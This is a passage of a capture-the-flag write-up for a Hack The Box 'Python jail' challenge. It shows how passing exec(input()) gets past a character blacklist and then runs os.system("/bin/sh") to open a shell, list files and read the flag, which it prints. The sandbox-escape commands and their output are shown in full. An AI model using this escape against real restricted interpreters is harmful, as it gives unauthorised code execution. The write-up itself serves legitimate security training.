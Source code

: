 ```python
> input()                                                                                                           
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
'"'"Test aWE$%                                                                                                      
>
```
Here we see no blacklist notice despite putting several blacklisted characters. Perhaps we can use input in a different way? Next I tried `input` in combination with `exec`:

```python
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
print("This is a test.")                                                                                            
This is a test.
>
```
The print worked, and again no notice on blacklisted functions. From here there are several ways to read a flag. Since I wasn't sure what the flag was named or where it might be, I decided to create a shell session using a [gtfobins](https://gtfobins.github.io/) payload:
```python
> exec(input())                                                                                                     
                                                                                                                    
[*] Input accepted!                                                                                                 
                                                                                                                    
import os; os.system("/bin/sh")

whoami
ctf  

ls                                                                                                                  
flag.txt                                                                                                            
jail.py 

cat flag.txt                                                                                                        
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}
```

`HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`
